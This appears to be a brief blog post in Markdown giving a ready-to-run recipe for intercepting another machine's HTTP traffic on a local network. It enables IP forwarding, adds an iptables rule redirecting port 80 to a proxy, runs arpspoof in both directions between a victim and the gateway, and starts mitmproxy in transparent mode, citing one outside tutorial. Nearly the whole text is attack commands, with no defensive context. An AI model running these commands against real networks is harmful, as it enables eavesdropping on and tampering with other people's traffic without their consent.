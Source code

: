 ```yaml
---
layout: post
title: "Intercept HTTP Traffic with Mitmproxy and Arpspoof on Kali Linux"
---
```


1. Enable IP forwarding & port redirection:
   ```bash
   sysctl -w net.ipv4.ip_forward=1
   iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
   ```
2. Use `tmux` to run 2 instances of `arpspoof`:
   ```bash
   arpspoof -i <$INTERFACE> -t <$VICTIM_IP> <$GATEWAY_IP>
   ```
   ```bash
   arpspoof -i <$INTERFACE> -t <$GATEWAY_IP> <$VICTIM_IP>
   ```
3. Run `mitmproxy` in transparent mode:
   ```bash
   mitmproxy -T --host
   ```

---
1. <http://jeffq.com/blog/setting-up-a-man-in-the-middle-device-with-raspberry-pi-part-1/>
